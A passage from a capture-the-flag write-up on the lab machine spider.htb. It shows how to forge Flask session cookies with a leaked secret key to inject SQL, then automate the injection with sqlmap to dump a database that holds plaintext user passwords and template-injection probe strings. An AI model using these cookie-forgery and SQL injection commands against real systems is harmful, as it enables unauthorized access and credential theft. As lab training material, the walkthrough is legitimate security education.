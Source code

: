 Let’s generate new cookies with secret_key, but we don’t know whether admin or another user exists or not. So, we have to perform a SQL injection via cookie value.

```shell
🔥\> flask-unsign --sign --cookie "{'cart_items': [], 'uuid': '\'or 1=1 #'}" --secret "Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942"
eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6IidvciAxPTEgIyJ9.YLiy4A.MZdsM3B4vX21sivpDjKT4yJEM0M
```

We got the signed cookies with SQL query. Under UUID we are passing the SQL query ( ‘or 1=1). Now we use this signed cookie and update via cookie-editor and refresh the page.

![Screen Shot 2021-06-03 at 03.50.36.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/5FF1F26B-58B7-4B92-9179-2EA1A3046312_2/Screen%20Shot%202021-06-03%20at%2003.50.36.png)

![Screen Shot 2021-06-03 at 03.50.55.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/00E6783F-77D3-42F5-9066-F44642DAB252_2/Screen%20Shot%202021-06-03%20at%2003.50.55.png)

As you can see, after adding custom cookie we got another user session now (chiv). There’s nothing new which can help us to gain shell. Let’s perform a SQL injection and dump the database for passwords.

```shell
🔥\> sqlmap http://spider.htb/ --eval "from flask_unsign import session as s; session = s.sign({'uuid': session}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')" --cookie="session=*" --dump
```

We are using eval function to generate cookies for every request SQLMAP makes to the server for enumeration and all. If we give only custom cookie it gives us an error. The previously gathered information about configuration of Flask Framework revealed that the session cookies will change upon each request is set true.

```other
SESSION_REFRESH_EACH_REQUEST&#39;: True,
```

For the dump, there are two things we gathered.

```shell
🔥\> cat ~/.local/share/sqlmap/output/spider.htb/
dump/           log             session.sqlite  target.txt

🔥\> cat ~/.local/share/sqlmap/output/spider.htb/dump/shop/
items.csv             message-34491011.bin  messages.csv          support.csv           users.csv

🔥\> cat ~/.local/share/sqlmap/output/spider.htb/dump/shop/messages.csv
post_id,creator,message,timestamp
1,1,Fix the <b>/a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal</b> portal!,2020-04-24 15:02:41
2,1,asfsaf,2021-06-03 09:08:41

🔥\> cat ~/.local/share/sqlmap/output/spider.htb/dump/shop/users.csv
id,uuid,name,password
1,129f60ea-30cf-4065-afb9-6be45ad38b73,chiv,ch1VW4sHERE7331
2,9529d74f-d051-44a0-83b4-b71ff870328c,{{7*'7'}},password
3,f6dac3d2-f248-4ff9-905b-12499cc7f992,ben,sdfghjkl
4,10db30e4-ff3f-498c-b1e9-03cac41f0182,chiv,sdfghjkl
5,19e5d240-d524-4664-ab19-31d610c6b179,{{config}},password
6,856967b5-09fe-4e23-a74a-d3634bbb770d,{{7*7}},sdfghjkl
7,0c9c0065-5b40-4540-b89d-5663053b44a1,{{7*7}},sdfghjkl
8,9141b4b0-c1f7-4b0e-82f5-4ab7ea4e2586,{{7*7}},sdfghjkl
9,6cf7ec8d-bce9-4232-bf0b-cf5b1d04771d,{{7*7}},sdfghjkl
10,143bbdd6-2763-471c-8a61-6998471235ca,{{config}},sdfghjkl
11,663c3cd2-cfd0-4a27-835e-b342a330744c,test,test
```

